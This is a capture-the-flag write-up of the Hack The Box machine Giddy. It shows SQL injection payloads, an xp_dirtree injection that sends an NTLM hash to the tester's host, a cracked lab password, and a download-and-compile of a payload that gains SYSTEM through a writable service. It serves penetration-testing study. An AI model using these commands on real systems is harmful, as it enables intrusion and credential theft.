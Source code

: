 ```yaml
---
layout: post
title: HTB Giddy -- medium
---
```


Quick overview:
IIS Server hosting site with SQLi vulnerbility. Use dirtree to execute Out-of-Band SQLi to responder to capture netNTLM hash. Crack the hash with hashcat for credentialed access via winrm. Log in as Stacy and find constrained powershell and Windows Defender. Enumerate and find vulnerable Unifi-Video service.
Use the Spookflare dropper and loader to drop a .cs payload in the directory of the service (\ProgramData\unifi-video\payload.cs) then used ‘lolbin’ cse.exe to compile the cs file. Restart the service and get an Administrator shell.

Starting off with an nmap scan, increasing the `--min-rate` and lowering the `--max-retries` to quickly scan every tcp port, we find web services running on 
ports 80 and 443 as well as RDP and WinRM services running on 3389 and 5985 respectively.

```
# Nmap 7.70 scan initiated Sat Sep 22 10:48:16 2018 as: nmap -sC -sV -Pn -vv --min-rate 1000 --max-retries 1 -p- -oA fast-all-tcp-scan --open 10.10.10.104
Nmap scan report for 10.10.10.104
Host is up, received user-set (0.50s latency).
Scanned at 2018-09-22 10:48:16 EDT for 154s
Not shown: 65531 filtered ports
Reason: 65531 no-responses
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
443/tcp  open  ssl/http      syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| ssl-cert: Subject: commonName=PowerShellWebAccessTestWebSite
| Issuer: commonName=PowerShellWebAccessTestWebSite
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2018-06-16T21:28:55
| Not valid after:  2018-09-14T21:28:55
| MD5:   78a7 4af5 3b09 c882 a149 f977 cf8f 1182
| SHA-1: 8adc 3379 878a f13f 0154 406a 3ead d345 6967 6a23
| -----BEGIN CERTIFICATE-----
| MIICHTCCAYagAwIBAgIQG2rbVjzfZqJIr005rMK4xTANBgkqhkiG9w0BAQUFADAp
| MScwJQYDVQQDDB5Qb3dlclNoZWxsV2ViQWNjZXNzVGVzdFdlYlNpdGUwHhcNMTgw
| NjE2MjEyODU1WhcNMTgwOTE0MjEyODU1WjApMScwJQYDVQQDDB5Qb3dlclNoZWxs
| V2ViQWNjZXNzVGVzdFdlYlNpdGUwgZ8wDQYJKoZIhvcNAQEBBQADgY0AMIGJAoGB
| ALOvHao3JEpJzzBHR9oCc+934QLPu2vRlC7jZAwySPX6v6fkvzsDr7uD50maLVtW
| 9etn9KVwfmgkYd6YtY+86YCc935s1rppNtNKeVXsG/PM4G+4HdPFf1Ik3Vj6fc1y
| w1nx2PLSNvlC74kkc33MA8y//vxqIckSJiHiVa5ZzdR/AgMBAAGjRjBEMBMGA1Ud
| JQQMMAoGCCsGAQUFBwMBMB0GA1UdDgQWBBS4T3PavA05OLCMaCa6GqgXsjCoozAO
| BgNVHQ8BAf8EBAMCBSAwDQYJKoZIhvcNAQEFBQADgYEAm6FzHooZ+SSLNp9KvPdX
| jjFPpf9Jv4j8Ao9qv1RnbwmTE5SSHhusXDOiAIOsErTVdaNa0VRcduMt+H054kfp
| 1MeoYvKXuXlMLbGe+orEIiVPjC/7cTJIVyfgyhdl5PdtetlZGrspK8h+2QqvxXpF
| im+bXy93yFQ6G9tOrzpBmFY=
|_-----END CERTIFICATE-----
|_ssl-date: 2018-09-22T14:45:44+00:00; -5m03s from scanner time.
| tls-alpn: 
|   h2
|_  http/1.1
3389/tcp open  ms-wbt-server syn-ack ttl 127 Microsoft Terminal Services
| ssl-cert: Subject: commonName=Giddy
| Issuer: commonName=Giddy
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2018-06-16T01:04:03
| Not valid after:  2018-12-16T01:04:03
| MD5:   b47a f83e d35a f9ce a8f2 3f12 553a 9d64
| SHA-1: e983 d0c5 32d9 1bff bb6c 39dd 3a9e 572d b451 f4ec
| -----BEGIN CERTIFICATE-----
| MIICzjCCAbagAwIBAgIQfSH4DfRyF5NCIy8oSsHfrTANBgkqhkiG9w0BAQsFADAQ
| MQ4wDAYDVQQDEwVHaWRkeTAeFw0xODA2MTYwMTA0MDNaFw0xODEyMTYwMTA0MDNa
| MBAxDjAMBgNVBAMTBUdpZGR5MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKC
| AQEA3y0jlRGIQp0h+vm1uicIT17fmPX/TunxMJLoYMt8VNIk+y1o7IODDHEGrvLc
| 5CRHN5q5PcFkPiBZTMBgr4dytGeZ5oULQn4+/4J+BSOEj0Bt/bvfxxLKXSDT0R/V
| pYbi60sq+S0x/58uV2YzyNasErEBkpoxg4RWZMAJwAZ/BILpbco79swPZjo0pCkg
| +JY+ZrUPz7DhkPEIFPgyXWrob39UECrqDVGeBZCdb/l6zTpkDMuZaC6Ii1QtQ3RK
| KJEqLujC8iI21xUQL4x4HJFowytSVVVDjsjcZD4R/nztkOazvqiMr+T4M9RoLBsx
| s9SDnTT4PnEZxiCSf0WRZM3K4QIDAQABoyQwIjATBgNVHSUEDDAKBggrBgEFBQcD
| ATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBAKsIrKXwUFq9UGUZSLcP
| e1S6m16BIBSOowftntZ9/hKPe7ho20tArV7DE3zGD3IiUt65Ktcwp2JwCmFR241G
| gTURI+RWQAyLxwB24Y40Pt9rDSnxH77mVS3rcvsubmDIOERpnnapJXqeq32UYw0c
| 8bEHWEJKJLzbmjEvjh1IWTyEY3JAqzZAoGoHzCuYUZzrt7BUo37S6is39dL1hU0f
| g9MZTfIDuqL8nut1/ejfL+nN7kdqCfS5usBouOnpdlbjY43snVFITWbuWnEF18s7
| 1Z8M7kwq2WZZ7fTCyDo9uONrfmxZtQk1bDE/QJlbr71hfn0u45KAj9taWOsmns5Q
| guY=
|_-----END CERTIFICATE-----
|_ssl-date: 2018-09-22T14:45:44+00:00; -5m02s from scanner time.
5985/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: -5m02s, deviation: 0s, median: -5m03s

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Sep 22 10:50:50 2018 -- 1 IP address (1 host up) scanned in 153.96 seconds
```

No credential yet to log in to either RDP or WinRM and brute forcing is unlikely without even a user name to go on I take a look at the web site.

![](https://braaaax.github.io/braaaax.github.io/images/giddy-mvc.png)

We see it's a sales site. It's managing its inventory with a database on the backend that it accessing with a GET request ie `GET /mvc/Product.aspx?ProductSubCategoryId=18`

This looks like an opportunity for SQL injection. So we capture the request in Burp Suite.

```
GET /mvc/Product.aspx?ProductSubCategoryId=18 HTTP/1.1
Host: giddy.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://giddy.htb/mvc/
Cookie: .redirect.=3891ECAA60B1511BE0B3BE314EAB9C9082A082F1755D5C485DFE7B6CE27AA7CC03FD824DD9CB06D2D5C5B470A84AF87BAAED0B7877A16FA21B09BB0E0C1FF51753F891E0670C2A44B940BD18922267B72C5C0E2F12E244921B89ACA7E74673E1D6008AAD630C505B23C4447BE181519A037DE150326090D3936F41135D5DAAC5; ASP.NET_SessionId=lunz1qjw14x3aoyc0yrhpzx3; __AntiXsrfToken=85c10a48e20b4503a77526ffa0b5ea36
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

Running sqlmap with the saved product request from above returns a vulnerable injection point.

`sqlmap -r product.req`

```
GET parameter 'ProductSubCategoryId' is vulnerable. Do you want to keep testing the others (if any)? [y/N] 
sqlmap identified the following injection point(s) with a total of 121 HTTP(s) requests:
---
Parameter: ProductSubCategoryId (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: ProductSubCategoryId=18 AND 1781=1781

    Type: error-based
    Title: Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)
    Payload: ProductSubCategoryId=18 AND 1834 IN (SELECT (CHAR(113)+CHAR(122)+CHAR(118)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (1834=1834) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(120)+CHAR(122)+CHAR(113)))                                                                                              

    Type: inline query
    Title: Microsoft SQL Server/Sybase inline queries
    Payload: ProductSubCategoryId=(SELECT CHAR(113)+CHAR(122)+CHAR(118)+CHAR(120)+CHAR(113)+(SELECT (CASE WHEN (3086=3086) THEN CHAR(49) ELSE CHAR(48) END))+CHAR(113)+CHAR(113)+CHAR(120)+CHAR(122)+CHAR(113))                                                                                                               

    Type: stacked queries
    Title: Microsoft SQL Server/Sybase stacked queries (comment)
    Payload: ProductSubCategoryId=18;WAITFOR DELAY '0:0:5'--

    Type: AND/OR time-based blind
    Title: Microsoft SQL Server/Sybase time-based blind (IF)
    Payload: ProductSubCategoryId=18 WAITFOR DELAY '0:0:5'

    Type: UNION query
    Title: Generic UNION query (NULL) - 25 columns
    Payload: ProductSubCategoryId=18 UNION ALL SELECT NULL,NULL,CHAR(113)+CHAR(122)+CHAR(118)+CHAR(120)+CHAR(113)+CHAR(72)+CHAR(76)+CHAR(111)+CHAR(85)+CHAR(105)+CHAR(108)+CHAR(114)+CHAR(72)+CHAR(80)+CHAR(89)+CHAR(89)+CHAR(116)+CHAR(72)+CHAR(109)+CHAR(68)+CHAR(109)+CHAR(69)+CHAR(72)+CHAR(115)+CHAR(87)+CHAR(104)+CHAR(98)+CHAR(108)+CHAR(116)+CHAR(115)+CHAR(100)+CHAR(76)+CHAR(116)+CHAR(106)+CHAR(97)+CHAR(73)+CHAR(100)+CHAR(68)+CHAR(83)+CHAR(122)+CHAR(121)+CHAR(98)+CHAR(97)+CHAR(112)+CHAR(67)+CHAR(113)+CHAR(113)+CHAR(120)+CHAR(122)+CHAR(113),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- AuQr
---
```

There is nothing of interest in the database so I try to get a hash (NTLMv2) with:

`/mvc/Product.aspx?ProductSubCategoryId=18;declare @q varchar(99);set @q='\\10.10.14.8\test1'; exec master.dbo.xp_dirtree @q`

![](https://braaaax.github.io/braaaax.github.io/images/giddy-out-of-band.png)

Which I catch with Responder

![](https://braaaax.github.io/braaaax.github.io/images/giddy-responder.png)

The hash gives us a username in the first section: Stacy

Relaying is out of the question since there is only one box and we can't relay back to the same box. So I try to crack the hash with hashcat and it works!

![](https://braaaax.github.io/braaaax.github.io/images/giddy-hashcat.png)

Now we have credentials for our user Stacy

```
DOMAIN\User: GIDDY\Stacy
Password: xNnWo6272k7x
```

I hop on over to my Win10 VM, because I hate using the ruby and python winrm scripts as they drop the connection too often, and nothing beats a Windows box for WinRM sessions.

I add these commands to configure my session:

```
winrm quickconfig
Enable-WSManCredSSP -Role Client -DelegateComputer compatibility
winrm set winrm/config/client '@{TrustedHosts="10.10.10.104"}'
$username = 'Stacy'
$password = 'xNnWo6272k7x'
$securepass = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securepass
$session = New-PSSession -ComputerName 10.10.10.104 -Credential $credential
```

I begin my enumeration, but it isn't until I read `\Users\Stacy\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt` that I find the vulnerable service. 

The plan is to restart the service, which is run as a privileged user, and upon restart my compiled malware will be executed and I will get a call back as System.

![](https://braaaax.github.io/braaaax.github.io/images/giddy-spookflare.png)


```
Invoke-WebRequest -outfile \ProgramData\unifi-video\payload.cs http://10.10.14.8/payload.cs
\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe -out:\ProgramData\unifi-video\taskkill.exe \ProgramData\unifi-video\payload.cs
Stop-Service -Name Unifivideoservice -Force
Start-Service -Name Unifivideoservice
```

Success. System rooted. 

![](https://braaaax.github.io/braaaax.github.io/images/giddy-final.png)

